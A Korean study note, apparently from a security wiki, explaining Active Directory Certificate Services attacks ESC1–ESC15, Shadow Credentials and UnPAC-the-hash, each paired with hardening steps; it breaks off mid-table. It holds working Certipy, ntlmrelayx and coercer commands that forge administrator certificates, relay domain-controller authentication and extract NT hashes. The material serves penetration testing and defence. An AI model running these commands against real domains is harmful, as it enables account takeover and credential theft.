

> [!warning] 허가된 환경에서만 실습하세요
> AD CS 공격은 **운영 PKI의 발급 로그·CRL·KRA를 영구히 오염**시킬 수 있고,
> 발급된 인증서가 유효 기간 내내 **사용자/머신을 가장**하는 열쇠가 됩니다. 랩이
> 아닌 환경에서는 템플릿 수정·ESC6 플래그 토글·Web Enrollment 켜기 같은 변경은
> **되돌려 놓아도 발급된 인증서는 그대로 유효**하다는 점을 먼저 합의해야 합니다.
> 테스트 시에는 모든 변경과 발급된 인증서의 `requestID`, 만료일, 폐기(CRL)
> 계획을 보고서에 적으세요.

> [!summary] ⏱️ 5초 핵심 요약
> - **한 줄 비유**: AD CS는 **"회사 신분증 발급기"**입니다. 템플릿·CA 플래그·
>   발급권 ACL 중 어느 하나라도 "주소 칸을 지원자가 쓰게" 두면 공격자가 **다른
>   이름**이 박힌 신분증을 발급받고, 그 신분증으로 보안실(DC)까지 통과합니다.
> - **핵심 원리**: 공격은 세 가지 축의 조합입니다. ① **발급 흐름의 입력 통제
>   실패**(SAN 주입, EKU 임의화, 발급 대리권) ② **발급권 ACL 남용**(템플릿·
>   CA 객체 수정) ③ **인증 시 매핑 통제 실패**(약한 매핑, EDITF, security
>   extension 미포함). 2022년 [KB5014754](https://support.microsoft.com/kb/5014754) 이후 ③이 강한 매핑으로 바뀌면서 공격 난이도가 올라갔지만
>   완전히 사라지지는 않았습니다.
> - **놓치기 쉬운 곳**: `Enrollee Supplies Subject`, `Manager Approval=Off`,
>   `Any Purpose EKU`, `EDITF_ATTRIBUTESUBJECTALTNAME2`, `Web Enrollment 활성
>   + EPA 미설정`, **ESC9/ESC10의 "약한 매핑" 호환 모드**. 하드닝 체크만으로는
>   놓치기 쉬워 **certipy find --vulnerable**로 전수 조사해야 합니다.
> - **근본 조치**: **템플릿의 입력 통제(Enrollee Supplies Subject 끄기, Manager
>   Approval, 요청 서명) + EDITF·Web Enrollment·EPA 하드닝 + KB5014754 강한
>   매핑 강제(`CertificateMappingMethods=0x1F`, `StrongCertificateBindingEnforcement=2`)**.

[[AD 심화 — 강제 인증과 릴레이의 이해와 방어|강제 인증·릴레이]] 글에서
"HTTP → AD CS Web Enrollment" 경로(ESC8)를 짧게 다뤘습니다. 이 글은 그
ESC8을 포함해 **ESC1~ESC15 전체**와 Shadow Credentials·PKINIT·UnPAC-the-hash
까지 한 흐름으로 묶습니다. AD의 기본 인증은
[[공격 체인 이전의 AD 아키텍처 기초 — Kerberos, NTLM, DACL·ACE, GPO·SYSVOL, 도메인 트러스트|AD 아키텍처 기초]]를 참고하세요.

모든 명령은 플레이스홀더(`<ca-host>`, `<ca-name>`, `<template>`)로 일반화했고
예시 도메인은 `corp.local`, IP는 `10.0.0.0/24`입니다. **이 PC에서는 AD CS 랩을
돌릴 수 없어 도구 옵션과 문법은 공식 README·KB로 확인했으며 실행 결과 자체는
미검증**입니다. 재현은 아래 "실습 환경" 절의 공개 랩에서 하세요.

---

## 한눈에 보는 AD CS 공격 요약표

| 기법 | 필요 조건 | 얻는 것 | 끊어야 할 방어 지점 |
|---|---|---|---|
| **ESC1** | 템플릿: 클라이언트 인증 EKU + Enrollee Supplies Subject + 등록권, **Manager Approval 꺼짐, 요청 서명 0** | 임의 사용자명으로 유효 인증서 | Enrollee Supplies Subject 끄기, Manager Approval |
| **ESC2** | 템플릿: Any Purpose EKU 또는 EKU 없음 + 등록권 | 임의 용도 인증서(SubCA 가장 등) | EKU를 Client Auth 등 구체화 |
| **ESC3** | Enrollment Agent 템플릿 등록권 + 대리 발급 가능한 대상 템플릿 | 임의 사용자 대리 발급 | Enrollment Agent Restrictions로 대리 대상 제한 |
| **ESC4** | 템플릿 객체에 **쓰기 ACE** | 템플릿을 ESC1 모양으로 변조 후 발급 | 템플릿 ACL에서 `Authenticated Users` write 제거 |
| **ESC5** | CA / pKIEnrollmentService 객체, CA 호스트 자체에 **쓰기** | CA 설정 변조, 발급 통제 전체 | Tier-0 AD 객체·CA 서버 ACL 하드닝 |
| **ESC6** | CA `EDITF_ATTRIBUTESUBJECTALTNAME2` 플래그 ON | 어떤 템플릿이든 SAN을 요청 속성으로 주입 | EDITF 비활성, 5014754 적용 |
| **ESC7** | CA에 **ManageCA** 또는 **ManageCertificates** ACE | 플래그 토글, 실패 요청 재승인, 자기 발급 승인 | CA 역할 분리, ACL 하드닝 |
| **ESC8** | Web Enrollment 활성 + EPA 미적용 → NTLM 릴레이 | 피해 머신·사용자 이름의 인증서 | Web Enrollment 제거, EPA = Required |
| **ESC9** | 대상 템플릿에 **`msDS-AltSecIdentities`/security extension 미포함** 설정 + 약한 매핑 호환 모드 | UPN 변경 → 다른 계정으로 로그인 | KB5014754 강한 매핑 강제 |
| **ESC10** | DC의 **약한 인증서 매핑 호환**(`CertificateMappingMethods`에 UPN·이메일) | UPN 조작으로 대상 사용자 가장 | `CertificateMappingMethods`에서 약한 매핑 비트 제거 |
| **ESC11** | ICPR RPC 엔드포인트가 **EPA 없이** NTLM 허용 | RPC 릴레이로 Web Enrollment 없이 발급 | `IF_ENFORCEENCRYPTICERTREQUEST` 플래그 ON |
| **ESC13** | 템플릿의 **Issuance Policy OID**가 보안 그룹에 링크 | 등록 가능한 사용자가 **그 그룹의 권한**을 보유한 것처럼 인증 | OID→그룹 링크 검토, 최소 권한 그룹만 연결 |
| **ESC14** | 대상 객체의 `altSecurityIdentities`에 **쓰기** + 약한 매핑 | 임의 인증서를 특정 사용자에 매핑 | `altSecurityIdentities` 쓰기 ACE 최소화, 강한 매핑 |
| **ESC15 (EKUwu)** | **Schema v1** 템플릿 + 등록권, 응용 정책 (Application Policies) 조작 가능 | CSR 안의 Application Policies로 **임의 EKU 추가** | v1 템플릿 비활성·교체 |

> [!important] 숫자만 보지 말고 "흐름"으로 묶으세요
> 공격 체인은 보통 **"무엇으로 발급받느냐(ESC1·2·4·6·15) × 어떻게 발급받느냐
> (ESC3·7·8·11) × 발급 후 어떻게 인증하느냐(ESC9·10·13·14) × Shadow
> Credentials/UnPAC-the-hash"** 로 조합됩니다. 각 ESC는 독립 버그가 아니라
> **발급 파이프라인의 다른 단계에서 생기는 통제 실패**입니다.

---

## 1. AD CS 구성 요소와 열거

### 1.1 구성 요소

| 객체 / 설정 | LDAP 위치 | 역할 |
|---|---|---|
| **Enterprise CA** | `CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,...` + `pKIEnrollmentService` 객체 | 템플릿을 발급 가능한 CA (IssueTemplates 속성) |
| **Certificate Template** | `CN=Certificate Templates,CN=Public Key Services,...` 의 `pKICertificateTemplate` | 발급 규칙(EKU, SAN 입력, 등록 ACL, Manager Approval, 서명 요구) |
| **AIA / CDP** | `CN=AIA`, `CN=CDP,CN=Public Key Services,...` | 체인·폐기 배포 지점 |
| **Web Enrollment** | IIS 사이트 `/certsrv` | HTTP(S) 기반 수동 요청 (ESC8) |
| **ICPR RPC** | `IcertPassage` 인터페이스, `cert` 명명된 파이프 | 네이티브 RPC 발급 (ESC11) |
| **NDES** | `/certsrv/mscep` | SCEP 기반 모바일 발급 |

### 1.2 열거 — certipy find

[Certipy](https://github.com/ly4k/Certipy)는 AD CS 열거·공격 통합 도구입니다
(원본은 [`zer1t0/Certipy`](https://github.com/zer1t0/Certipy)이며 현재 유지
관리는 `ly4k/Certipy` 포크). 설치는 `pipx install certipy-ad`.

```bash
# 가장 자주 쓰는 한 줄: 전체 CA·템플릿 수집 + 취약 템플릿만 하이라이트
certipy find -u <user>@corp.local -p '<pw>' -dc-ip 10.0.0.10 \
  -vulnerable -enabled -stdout

# 결과물을 BloodHound에 올리기 위한 JSON/ZIP 형식
certipy find -u <user>@corp.local -p '<pw>' -dc-ip 10.0.0.10 \
  -vulnerable -enabled -bloodhound

# LDAPS만 열려 있을 때 (DC가 LDAP Signing을 요구)
certipy find -u <user>@corp.local -p '<pw>' -dc-ip 10.0.0.10 \
  -vulnerable -ldap-channel-binding -scheme ldaps
```

주요 옵션:

| 옵션 | 뜻 |
|---|---|
| `-vulnerable` | 각 ESC에 대한 **알려진 조건**만 통과한 템플릿·CA만 표시 |
| `-enabled` | CA가 실제로 발급 가능한 템플릿만 |
| `-stdout` / `-text` | 텍스트 요약 / `-json` / `-bloodhound` | 출력 형식 |
| `-dc-ip`, `-dc-host` | DC 지정 — 멀티 도메인 Forest에서 **정확한 DC 지정이 중요** |
| `-scheme ldaps` | 포트 636로만 쿼리 (LDAP 서명/CBT가 요구될 때) |
| `-hashes :<NT>` | Pass-the-Hash로 열거 |
| `-k -no-pass` | Kerberos 티켓(CCACHE)로 열거 |

취약 템플릿 섹션은 ESC1, ESC2, ESC3, ESC4, ESC6, ESC9, ESC10, ESC13, ESC15 등을
개별 bucket으로 보여줍니다. **"vulnerable" 리스트에 없다고 해서 안전이라는 뜻은
아닙니다** — certipy는 모든 조건을 완벽히 확인하지 못하는 항목이 있고(특히 ESC5·
ESC14 ACL 체인), `find` 결과를 수동으로 재검토하는 단계가 필요합니다.

- 출처: [Certipy ly4k 공식 README](https://github.com/ly4k/Certipy), [SpecterOps — Certified Pre-Owned (백서)](https://posts.specterops.io/certified-pre-owned-d95910965cd2)

---

## 2. ESC1~ESC8 단계별

### 2.1 ESC1 — Enrollee Supplies Subject + Client Auth

**원리**: 템플릿이 "요청자가 Subject/SAN을 자유롭게 지정"(`CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT`)
하도록 허용하고, EKU에 **Client Authentication**(`1.3.6.1.5.5.7.3.2`) 또는
Smart Card Logon, Any Purpose가 포함되며, 공격자가 등록 권한을 가지면 **다른
사용자명으로 SAN을 넣어 요청**할 수 있습니다. Manager Approval이 꺼져 있고
요청 서명 수(`msPKI-RA-Signature`)가 0이어야 바로 발급됩니다.

**성립 조건**:
- `msPKI-Certificate-Name-Flag` 에 `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` 비트 ON
- EKU에 Client Authentication / PKINIT Client Auth / Smart Card Logon / Any Purpose 중 하나
- 등록 ACL에 공격자 포함
- `mspki-enrollment-flag`의 `CT_FLAG_PEND_ALL_REQUESTS`(Manager Approval) OFF
- `msPKI-RA-Signature = 0`

**명령**:

```bash
# 임의 UPN(administrator)로 인증서 요청
certipy req -u <user>@corp.local -p '<pw>' \
  -ca <ca-name> -template <vuln-template> \
  -upn administrator@corp.local -dc-ip 10.0.0.10

# 결과 .pfx 로 PKINIT → TGT → NT 해시
certipy auth -pfx administrator.pfx -dc-ip 10.0.0.10
```

`certipy req`의 핵심 옵션:

| 옵션 | 뜻 |
|---|---|
| `-ca` | **CA 이름**(예: `CORP-CA`, `pKIEnrollmentService.cn`). DNS 호스트명이 아님 |
| `-template` | 템플릿의 CN (예: `User`, `VulnerableTemplate`) |
| `-upn` | SAN의 UPN (ESC1 핵심) |
| `-dns` | SAN의 DNS 이름 (머신 계정 대상일 때) |
| `-sid` | **KB5014754 대응** — SAN에 `szOID_NTDS_CA_SECURITY_EXT`에 들어갈 SID 삽입 |
| `-application-policies` | ESC15 전용 — Application Policies 조작 |
| `-out` | 저장 경로 |

**방어**: 템플릿 속성 **"Supply in the request" 끄기(Build from this AD info)**,
Manager Approval 켜기, 서명 요구 수 ≥ 1, 등록 ACL 최소화.

### 2.2 ESC2 — Any Purpose EKU

**원리**: EKU가 `Any Purpose`(`2.5.29.37.0`)이거나 EKU 확장이 아예 비어 있으면
해당 인증서는 **클라이언트 인증, 코드 서명, 하위 CA 가장 등 어떤 용도로도
사용 가능**합니다. 공격자가 그 인증서로 사용자 가장 또는 신뢰된 하위 CA를
가장할 수 있습니다.

**조건**: `pKIExtendedKeyUsage`가 `2.5.29.37.0` 포함 또는 비어 있음. 나머지는
ESC1과 동일한 등록·승인 조건.

**명령**: ESC1과 동일한 `certipy req`를 쓰되 Subject는 비워도 되고, 획득 후
해당 인증서로 가장 공격을 수행합니다.

**방어**: `Any Purpose` 금지, EKU를 사용 목적으로 구체 지정.

### 2.3 ESC3 — Enrollment Agent

**원리**: Enrollment Agent 템플릿(EKU = `Certificate Request Agent` = `1.3.6.1.4.1.311.20.2.1`)
의 등록권을 가진 사용자는 **다른 사용자 대신 인증서를 요청**할 수 있습니다.
Enrollment Agent Restrictions가 없거나 광범위하면 임의 사용자 대리 발급이
가능합니다.

**조건**:
- 대상 템플릿의 EKU에 Certificate Request Agent
- 대상 CA의 "Enrollment Agents" 제한이 **"Do not restrict enrollment agents"**
  또는 공격자가 포함된 목록
- 대리로 발급받을 **일반 사용자 템플릿(예: `User`)**에 대한 발급 허용

**명령**:

```bash
# 1단계: 공격자 자신의 Enrollment Agent 인증서 발급
certipy req -u <user>@corp.local -p '<pw>' \
  -ca <ca-name> -template EnrollmentAgent -dc-ip 10.0.0.10

# 2단계: 그 인증서로 administrator 대신 User 템플릿 발급
certipy req -u <user>@corp.local -p '<pw>' \
  -ca <ca-name> -template User \
  -on-behalf-of 'corp\administrator' -pfx <attacker>.pfx \
  -dc-ip 10.0.0.10
```

`-on-behalf-of`가 핵심입니다. 결과 `.pfx`로 PKINIT 인증 → 관리자 세션.

**방어**: CA 속성에서 Enrollment Agents 제한을 켜고 **대리 가능한 템플릿과
대상 그룹을 화이트리스트화**. 가능하면 Enrollment Agent 기능 자체를 쓰지 않음.

### 2.4 ESC4 — 템플릿 객체 쓰기 ACE

**원리**: 템플릿 자체가 LDAP의 `pKICertificateTemplate` 객체이고, 여기에
**WriteDACL / WriteOwner / GenericWrite / WriteProperty** 중 하나라도 있으면
공격자가 **템플릿을 ESC1 모양으로 변조** 후 발급받고 원상 복구합니다.

**조건**: 템플릿 객체 ACL에 공격자 또는 공격자가 속한 그룹의 쓰기 ACE.

**명령**:

```bash
# 공격 전 상태 저장
certipy template -u <user>@corp.local -p '<pw>' \
  -template <target-template> -save-old -dc-ip 10.0.0.10

# ESC1 모양으로 변조 (Enrollee Supplies Subject + Manager Approval off 등)
certipy template -u <user>@corp.local -p '<pw>' \
  -template <target-template> -write-default-configuration -dc-ip 10.0.0.10

# 발급 → certipy req (ESC1과 동일)
# 발급 완료 후 반드시 원상 복구
certipy template -u <user>@corp.local -p '<pw>' \
  -template <target-template> -configuration <target>_old.json -dc-ip 10.0.0.10
```

**방어**: 템플릿 ACL에서 `Authenticated Users` 쓰기 제거, 변경 감사(이벤트
ID 4662 — `pKICertificateTemplate` 객체 쓰기).

### 2.5 ESC5 — CA/AD 객체 ACL

**원리**: ESC4가 템플릿이었다면 ESC5는 **CA 객체, Enrollment Services 컨테이너,
AIA·CDP 컨테이너, pKIEnrollmentService 객체, CA 서버 호스트 그 자체**에 대한
위험한 ACL입니다. CA 서버의 로컬 관리자나 Tier-0 객체 쓰기 권한은 전체 PKI
장악으로 이어집니다.

**방어**: Tier-0 분리, PKI 운영자 그룹 최소화, CA 서버를 Tier-0로 취급.

### 2.6 ESC6 — EDITF_ATTRIBUTESUBJECTALTNAME2

**원리**: CA 레지스트리의 `EditFlags`에 `EDITF_ATTRIBUTESUBJECTALTNAME2`
(`0x40000`) 비트가 켜져 있으면 **어떤 템플릿이든 요청 속성(CSR의 Attribute
섹션)으로 SAN을 주입**할 수 있습니다. ESC1과 달리 템플릿이 Enrollee Supplies
Subject를 허용하지 않아도 됩니다.

**확인**:

```bash
certipy find ... | grep -i EDITF
# 또는
certutil -config '<ca-host>\<ca-name>' -getreg ca\EditFlags
```

**공격**:

```bash
certipy req -u <user>@corp.local -p '<pw>' \
  -ca <ca-name> -template User \
  -upn administrator@corp.local -dc-ip 10.0.0.10
# 템플릿 자체는 ESC1 조건을 만족하지 않아도 CA가 SAN을 받아들임
```

**방어**: EDITF 비활성 — `certutil -setreg policy\EditFlags -EDITF_ATTRIBUTESUBJECTALTNAME2 && net stop certsvc && net start certsvc`.
KB5014754 강한 매핑과 함께 **가장 먼저 꺼야 하는 플래그**.

### 2.7 ESC7 — ManageCA / ManageCertificates

**원리**: CA의 역할 분리에서 **ManageCA**(CA 설정 관리) 또는
**ManageCertificates**(요청 승인·거부) ACE를 가진 사용자는 ESC6 플래그를 켜고,
실패한 요청을 승인하거나 Officer 역할을 이용해 자신에게 인증서를 발급할 수
있습니다. ManageCA는 거의 CA 관리자 수준의 권한입니다.

**확인·공격**:

```bash
# certipy는 ca 하위 명령으로 ESC7 공격을 지원
certipy ca -u <user>@corp.local -p '<pw>' \
  -ca <ca-name> -list-officers
certipy ca -u <user>@corp.local -p '<pw>' \
  -ca <ca-name> -enable-template SubCA  # 예: 비활성 템플릿을 발급 가능하게
certipy ca -u <user>@corp.local -p '<pw>' \
  -ca <ca-name> -issue-request <request-id>   # 실패한 요청 승인
```

**방어**: ManageCA/ManageCertificates ACE는 PKI 운영팀에만, **별도 PKI 관리자
계정을 Tier-0 모델에서 분리**.

### 2.8 ESC8 — HTTP Web Enrollment NTLM 릴레이

**원리**: Web Enrollment(`/certsrv`)는 기본적으로 NTLM 인증을 받습니다. 공격자가
Coercion 또는 포이즈닝으로 피해 머신 계정의 NTLM 인증을 공격자 호스트로 몰고,
공격자는 그것을 **`certfnsh.asp`에 그대로 릴레이**해 **피해 머신 이름의 유효
인증서**를 받아옵니다.

**체인**: PetitPotam → ntlmrelayx `--adcs` → 인증서 → PKINIT → UnPAC-the-hash.

```bash
# 터미널 1: 릴레이 수신 (--adcs 모드)
impacket-ntlmrelayx -t http://<ca-host>/certsrv/certfnsh.asp \
  --adcs --template Machine

# 터미널 2: DC 머신 계정을 공격자로 강제 인증
coercer coerce -u <user> -p '<pw>' -d corp.local \
  -t 10.0.0.10 -l <attacker-ip>  # 또는 PetitPotam.py

# 받은 Base64 인증서를 저장 후 PKINIT
certipy auth -pfx dc01.pfx -dc-ip 10.0.0.10
```

**방어**:
1. 가장 안전: **Web Enrollment 역할 서비스 제거**.
2. 유지해야 하면: IIS 사이트 **인증 방식을 Kerberos 전용** + **EPA = Required** +
   HTTPS 강제. [KB5014754](https://support.microsoft.com/kb/5014754) 적용.
3. 상류에서 **DC로의 NTLM 인증 전면 차단** (`Restrict NTLM: Deny all accounts`
   조건부 적용).

자세한 Coercion 체계는 [[AD 심화 — 강제 인증과 릴레이의 이해와 방어]] 참조.

- 출처: [Certified Pre-Owned 백서 v1.1 (SpecterOps)](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf), [Microsoft — EDITF](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-wcce/dc65a4ee-8ac7-4bc5-a7ec-db9eef3a0a21)

---

## 3. ESC9~ESC15 요지와 조건

ESC1~ESC8이 **발급 단계**의 문제였다면, ESC9~ESC15는 주로 **인증 매핑 단계**와
**발급 흐름의 새로운 통로**에서 발견된 후속 연구들입니다.

### 3.1 ESC9 — `CT_FLAG_NO_SECURITY_EXTENSION`

**원리**: KB5014754 이후 Windows는 인증서에 삽입된 **`szOID_NTDS_CA_SECURITY_EXT`**
(SID가 든 확장)를 보고 사용자 매핑을 검증합니다. 템플릿에
`CT_FLAG_NO_SECURITY_EXTENSION` 비트가 켜져 있으면 CA가 이 확장을 **삽입하지
않습니다**. DC가 **"호환" 또는 "비활성" 매핑 모드**이면 공격자가 자신의 UPN을
`administrator`로 바꿔 발급받아도 통과합니다.

**조건**:
- 템플릿 `msPKI-Enrollment-Flag`에 `CT_FLAG_NO_SECURITY_EXTENSION`
- DC `StrongCertificateBindingEnforcement = 0 또는 1`
- 공격자가 자신의 `userPrincipalName` 쓰기 권한 보유(ACL 또는 GenericWrite)

### 3.2 ESC10 — 약한 매핑 호환 모드

**원리**: DC 레지스트리
`HKLM\System\CurrentControlSet\Services\Kdc\CertificateMappingMethods`가
**약한 매핑(UPN=0x4, Email=0x8, Subject=0x10)**을 허용하면 security extension
없이도 매핑됩니다. **ESC9와 달리 템플릿이 아니라 DC 설정 문제**입니다.
`StrongCertificateBindingEnforcement = 0`(비활성)과 조합되면 공격이 쉽습니다.

**확인**:

```powershell
# DC에서
Get-ItemProperty 'HKLM:\System\CurrentControlSet\Services\Kdc' |
  Select CertificateMappingMethods, StrongCertificateBindingEnforcement
```

### 3.3 ESC11 — ICPR RPC 릴레이

**원리**: Web Enrollment가 아닌 **네이티브 ICPR RPC(`ICertPassage::CertServerRequest`)**
로도 발급이 가능하며, CA 레지스트리의 `InterfaceFlags`에
`IF_ENFORCEENCRYPTICERTREQUEST`가 꺼져 있으면 **EPA 없이 NTLM을 받습니다**.
공격자는 ESC8과 비슷하게 RPC 레벨에서 릴레이합니다. 2022년 Compass Security의
`certipy relay` 개선과 관련됩니다.

**확인**: `certutil -config '<ca-host>\<ca-name>' -getreg CA\InterfaceFlags`.

**공격**: `certipy relay -target rpc://<ca-host> -template Machine` (옵션명은
certipy 버전별 차이가 있어 공식 README 확인).

### 3.4 ESC13 — Issuance Policy OID의 그룹 링크

**원리**: Windows Server 2012 이후 **Issuance Policy OID를 AD 그룹에 링크**할
수 있습니다(msDS-OIDToGroupLink). 템플릿이 그 OID를 포함한 인증서를 발급하면
해당 사용자는 **그 그룹의 멤버인 것처럼 Kerberos 인증**됩니다. 등록 가능한
템플릿이 Tier-0 그룹과 연결돼 있으면 사실상 그 그룹으로의 상승입니다.

**확인**: `certipy find`의 ESC13 섹션, 또는 BloodHound CE의 `IssuancePolicy` 노드.

### 3.5 ESC14 — `altSecurityIdentities` 쓰기

**원리**: AD 사용자/머신 객체의 `altSecurityIdentities` 속성은 **임의 인증서
Subject/Issuer를 그 계정과 매핑**합니다. 이 속성에 쓰기 ACE가 있으면 공격자가
자신이 보유한 인증서(어떤 CA의 것이든)를 피해 계정에 매핑합니다. DC가 약한
매핑 호환이면 더 쉽고, 강한 매핑 모드에서도 특정 포맷을 만족시키면 성립합니다.

**방어**: `altSecurityIdentities`에 대한 Write 권한 최소화 (Tier-0 ACL 하드닝),
강한 매핑 모드.

### 3.6 ESC15 — "EKUwu" (CVE-2024-49019)

**원리**: **Schema 버전 1**의 `User` 등 레거시 템플릿은 CSR 안의
**Application Policies(`1.3.6.1.4.1.311.21.10`)**를 그대로 확장에 반영합니다.
공격자가 CSR에 `Application Policies = Client Authentication`을 넣으면
템플릿이 Client Auth EKU를 제공하지 않아도 **실질 EKU가 Client Auth가 됩니다**.
2024년 공개된 공격으로 패치는 포함된 Windows 업데이트 적용 + v1 템플릿의 사용
중단입니다.

**공격**:

```bash
certipy req -u <user>@corp.local -p '<pw>' \
  -ca <ca-name> -template WebServer \
  -application-policies 'Client Authentication' \
  -upn administrator@corp.local -dc-ip 10.0.0.10
```

**방어**: 모든 Schema v1 템플릿을 v2 이상으로 교체 또는 발급 중지. 월별 보안
업데이트 적용. v1 템플릿 사용 여부는 `certipy find`가 보고합니다.

- 출처: [SpecterOps — Certified Pre-Owned Addendum](https://posts.specterops.io/adcs-esc-attacks-a-comprehensive-look-c7c5e0f2f0b4), [Microsoft — KB5014754](https://support.microsoft.com/kb/5014754), [Oliver Lyak — ESC9/ESC10](https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7), [TrustedSec — EKUwu(ESC15)](https://trustedsec.com/blog/ekuwu-not-just-another-ad-cs-esc)

---

## 4. Shadow Credentials와 PKINIT, UnPAC-the-hash

### 4.1 Shadow Credentials — `msDS-KeyCredentialLink`

**원리**: Windows Hello를 지원하기 위한 `msDS-KeyCredentialLink` 속성에 공격자가
공개키를 넣으면 **그 공개키에 대응하는 개인키로 PKINIT 인증**이 가능해집니다.
비밀번호 재설정 없이 조용히 피해 계정으로 로그인하는 방법이고, Shadow
Credentials는 **쓰기 ACE 하나만 있으면 성립**합니다.

**조건**:
- 피해 객체의 `msDS-KeyCredentialLink`에 **쓰기 권한**(RBCD/GenericAll/
  AddKeyCredentialLink ACE 등)
- DC가 PKINIT 지원 (2008 이후 기본)

**명령**:

```bash
# certipy는 keyCredentialLink 추가와 PKINIT 인증까지 한 흐름으로 지원
certipy shadow -u <attacker>@corp.local -p '<pw>' \
  -account <victim-user> -dc-ip 10.0.0.10 -action add
# 성공 시 자동으로 PKINIT → TGT → NT 해시 추출 (-action auto 로 전체 체인)

# 원복
certipy shadow -u <attacker>@corp.local -p '<pw>' \
  -account <victim-user> -dc-ip 10.0.0.10 -action clear
```

**방어**: 머신·사용자 객체의 `msDS-KeyCredentialLink` 쓰기 ACE를 **Key Admins·
Enterprise Key Admins·그 객체 자신**으로 제한. BloodHound의
`AddKeyCredentialLink` edge로 상시 감시.

### 4.2 PKINIT 흐름



certipy auth는 PKINIT을 수행하고, **AS-REP의 PAC에 NTLM 해시가 포함되어
있으면 그대로 출력**합니다. 이것이 **UnPAC-the-hash**입니다.

```bash
certipy auth -pfx victim.pfx -dc-ip 10.0.0.10
# 출력 예:
# [*] Got hash for 'victim@corp.local': aad3b435b51404eeaad3b435b51404ee:<NT>
```

머신 계정 PFX라면 그 머신 NT 해시로 DCSync 등 다음 단계로 이어집니다.

### 4.3 KB5014754 영향

- **강한 매핑 모드** (`StrongCertificateBindingEnforcement = 2`)에서는 UnPAC-the-hash
  직전의 매핑이 거부될 수 있습니다. 공격자는 `-sid <S-1-5-21-...>`로 CSR에
  SID 확장을 **직접 삽입**해 우회를 시도합니다. 이 경로는 공격자가
  **피해 객체의 `objectSID`를 알고**, 템플릿이 `CT_FLAG_NO_SECURITY_EXTENSION`
  이거나 CA가 그 확장을 제거할 수 있을 때만 성립합니다.
- 완전 비활성(0)은 금지, 호환 모드(1)는 **감사·마이그레이션용 임시**로만,
  강한 모드(2)를 목표로 삼으세요.

- 출처: [Elad Shamir — Shadow Credentials 원 논문](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ec), [dirkjanm — PKINIT · UnPAC-the-hash](https://dirkjanm.io/getting-in-the-zone-dumping-active-directory-dns-with-adidnsdump/), [Microsoft — KB5014754](https://support.microsoft.com/kb/5014754)

---

## 5. 자주 나는 오류 표

오너가 HTB "Escape" 류 머신에서 자주 겪은 실수를 중심으로 정리합니다.

| 증상 | 원인 | 대응 |
|---|---|---|
| `[-] Could not find enrollment service` | `-ca` 에 **CA 이름이 아니라 DNS 호스트명**을 넣음 | `certipy find` 상단 `CA Name`을 복사. 예: `-ca CORP-CA` (DNS는 `CA01.corp.local`) |
| `[-] Could not find any certificate templates` | `-template` 오타 또는 CA가 해당 템플릿 발급 비활성 | `certipy find` 결과의 `Enabled Templates` 섹션에서 정확한 CN 복사 |
| `UNSUPPORTED_CERT_TYPE` | 템플릿 Schema/EKU와 요청 알고리즘 불일치 (예: v1 템플릿에 `-application-policies`) | 버전/EKU 확인, ESC15 공격이라면 v1 템플릿인지 재확인 |
| `KDC_ERR_CERTIFICATE_MISMATCH` | KB5014754 강한 매핑에서 security extension 없음 | `-sid` 옵션으로 SID 포함 요청, 또는 템플릿의 `CT_FLAG_NO_SECURITY_EXTENSION` 확인 |
| `KDC_ERR_CLIENT_NOT_TRUSTED` | 발급 체인이 DC의 NTAuth 저장소에 없음(비 Enterprise CA) | Enterprise CA에서 발급받거나 NTAuth 등록 필요 (방어 측면에선 좋은 통제) |
| `clock skew too great` | 공격자 호스트와 DC 시간 차이 > 5분 | `ntpdate -q <dc>` / `rdate` 로 동기화 |
| `[-] The authentication context was wrong` | ntlmrelayx `--adcs`에서 템플릿 EKU가 Client Auth 아님 | ESC1 조건 템플릿 또는 `Machine`/`User` 템플릿 지정 |
| `[-] The user does not have permission to request a certificate` | 등록 ACL에 공격자 없음 | 다른 템플릿 탐색, ESC4로 ACL 변조 가능한 템플릿 확인 |
| `KRB_AP_ERR_MODIFIED` on PKINIT | SPN/시간/TLS 호스트명 불일치 | DC FQDN으로 `-dc-host` 명시, 시계 동기화 |
| `certipy template -write-default-configuration` 후 발급도 안 되고 원복도 안 됨 | 저장 전에 덮어씀 | **반드시 `-save-old`로 먼저 백업 → 변조 → 발급 → `-configuration <old>.json`으로 원복** |

---

## 6. 방어·하드닝 — 발급·매핑 두 축 모두

### 6.1 템플릿 레벨

| 체크 | 왜 |
|---|---|
| **Enrollee Supplies Subject 끄기 (Build from AD info)** | ESC1 차단의 핵심 |
| **Manager Approval 켜기 또는 요청 서명 ≥ 1** | ESC1·ESC6을 사람 검토로 차단 |
| **EKU를 Client Auth 등 구체 지정, Any Purpose 금지** | ESC2 차단 |
| **Enrollment Agent 템플릿의 발급 가능 대상 제한** | ESC3 차단 |
| **템플릿 ACL에서 `Authenticated Users` 쓰기 제거** | ESC4 차단 |
| **`CT_FLAG_NO_SECURITY_EXTENSION` 비활성** | ESC9 차단 |
| **Schema v1 템플릿 폐기** | ESC15 (EKUwu) 차단 |

### 6.2 CA 레벨

| 체크 | 명령·위치 |
|---|---|
